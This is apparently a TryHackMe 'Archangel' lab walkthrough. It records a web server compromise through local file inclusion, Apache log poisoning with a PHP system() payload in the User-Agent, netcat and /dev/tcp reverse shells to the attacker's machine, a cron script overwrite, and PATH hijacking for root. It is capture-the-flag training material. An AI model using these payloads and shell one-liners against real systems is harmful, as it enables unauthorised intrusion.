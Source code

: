 # Archangel

**Room Link:** [https://tryhackme.com/room/archangel](https://tryhackme.com/room/archangel)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>



I added mafialive.thm to my host file and tried visiting the browser from there

**Kali**

```
subl /etc/hosts
```



<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://mafialive.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>







**Kali**

```
curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

echo "CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3ll
ZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhl
cmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E+PGJyPgogICAgICAgIDw/cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwg
JHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYo
IWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJ
aW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYXRzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8+CiAgICA8L2Rpdj4KPC9i
b2R5PgoKPC9odG1sPgoKCg==" | base64 -d

```



<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
curl -s http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//etc/passwd
```

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

### Burpe Request

By changing the user agent I was able to start running commands&#x20;

Before

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log HTTP/1.1
Host: mafialive.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

After

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=whoami HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>



### Reverse Shell

**Kali**

```
nc -lvnp 1337
```

**Command being sent**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $KALI 1337 >/tmp/f
```

**Burp request**

Only notable thing is to url encode the command being sent

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.125.248+1337+>/tmp/f+ HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>





### Shell - archangel

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
cat /etc/crontab
cat /opt/helloworld.sh
echo '#!/bin/bash' > /opt/helloworld.sh
echo "sh -i >& /dev/tcp/$KALI/1338 0>&1" >> /opt/helloworld.sh
```

<figure><img src="../../.gitbook/assets/image (13) (1) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### Privilege Escalation

**Victim**

<pre><code><strong>file backup
</strong><strong>strings backup 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

We can see with strings that the program is running a cp command but it isn't using the full pathm we can use this.

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat > cp << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
chmod +x cp
export PATH=/home/archangel/secret:$PATH
./backup 
```

<figure><img src="../../.gitbook/assets/image (6) (3).png" alt=""><figcaption></figcaption></figure>



























